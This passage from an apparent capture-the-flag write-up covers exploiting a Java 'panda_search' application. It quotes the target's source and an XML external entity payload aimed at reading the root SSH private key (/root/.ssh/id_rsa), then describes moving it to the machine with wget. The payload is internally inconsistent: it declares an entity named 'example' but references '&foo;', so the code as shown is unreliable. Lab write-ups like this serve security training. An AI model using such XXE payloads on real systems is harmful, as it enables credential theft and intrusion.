 ```java
        }
        BufferedWriter writer = new BufferedWriter(new FileWriter(fd));
        xmlOutput.output(doc, writer);
    }
```

The goal here is to somehow pass an XML file that we control to the `addViewTo` function that has a malicious XML payload. The function above does not seem to check or verify the XML that is passed to it, so I'll be trying to read the `/root/.ssh/id_rsa` file.&#x20;

Here's the XML file that I constructed:

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "/root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/img/angy.jpg</uri>
    <views>1</views>
    <key>&foo;</key>
  </image>
  <image>
    <uri>/img/shy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/crafty.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/peter.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

Afterwards, we can transfer this to the machine via `wget`. Then we need to somehow put our user controlled string into the machine to execute.

### Panda Search Logs

When reading the source code for `panda_search`, within `MainController.java`, it seems to check for the author of the files created:

```java
 if(author.equals("woodenk") || author.equals("damian"))
                {
                        String path = "/credits/" + author + "_creds.xml";
                        File fd = new File(path);
                        Document doc = saxBuilder.build(fd);
                        Element rootElement = doc.getRootElement();
                        String totalviews = rootElement.getChildText("totalviews");
                        List<Element> images = rootElement.getChildren("image");
                        for(Element image: images)
                                System.out.println(image.getChildText("uri"));
                        model.addAttribute("noAuthor", false);
                        model.addAttribute("author", author);
                        model.addAttribute("totalviews", totalviews);
                        model.addAttribute("images", images);
                        return new ModelAndView("stats.html");
                }     
```
